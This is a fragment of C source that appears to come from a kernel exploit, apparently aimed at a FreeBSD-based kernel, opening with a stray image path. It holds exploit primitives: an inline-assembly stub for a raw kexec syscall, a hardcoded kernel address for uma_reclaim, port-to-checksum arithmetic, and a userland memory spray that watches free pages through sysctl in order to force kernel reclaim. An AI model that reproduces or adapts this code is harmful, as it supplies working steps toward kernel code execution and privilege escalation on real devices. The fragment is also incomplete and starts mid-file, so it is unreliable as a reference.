 }

int get_port(int fd)
{
    struct sockaddr_in6 sin;
    socklen_t l = sizeof(sin);
    getsockname(fd, (struct sockaddr*)&sin, &l);
    return sin.sin6_port;
}

asm("kexec:\nmov $11,%rax\nmov %rcx,%r10\nsyscall\nret");

void kexec(void*);

#define uma_reclaim ((void*)0xffffffff80a7c1c0)

int port_to_csum(int port)
{
    int base_port = 0x0de6;
    int base_csum = 0x36b1;
    int csum = base_csum - 2 * (port - base_port);
    csum += 0x1fffe;
    csum %= 0xffff;
    return csum;
}

volatile void* userland_spray(void)
{
    volatile char* buf = mmap(NULL, 1L<<33, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    size_t npages = 50000;
    for(size_t i = 0; i < (1L<<33); i += 4096)
    {
        int checkout = 0;
        if(i % 10485760 == 0)
        {
            checkout = 1;
            printf("%lu\n", i);
        }
        struct vmtotal v1, v2;
        struct timeval t1, t2;
        int mibs[2] = {CTL_VM, VM_TOTAL};
        size_t l = sizeof(v1);
        if(npages < 50000 || checkout)
            sysctl(mibs, 2, &v1, &l, 0, 0);
        buf[i] = 123;
        if(npages < 50000 || checkout)
        {
            sysctl(mibs, 2, &v2, &l, 0, 0);
            if(v2.t_free > v1.t_free + RECLAIM_THRESHOLD)
            {
                printf("t_free was %d and is now %d\n", v1.t_free, v2.t_free);
                break;
            }
            else if(v2.t_free > v1.t_free)
                printf("t_free was %d and is now %d\n", v1.t_free, v2.t_free);
            npages = v2.t_free;
        }
    }
    printf("sprayed (?)\n");
    //munmap(buf+(1<<30)-(1<<20), 1<<20);
    return buf;
}
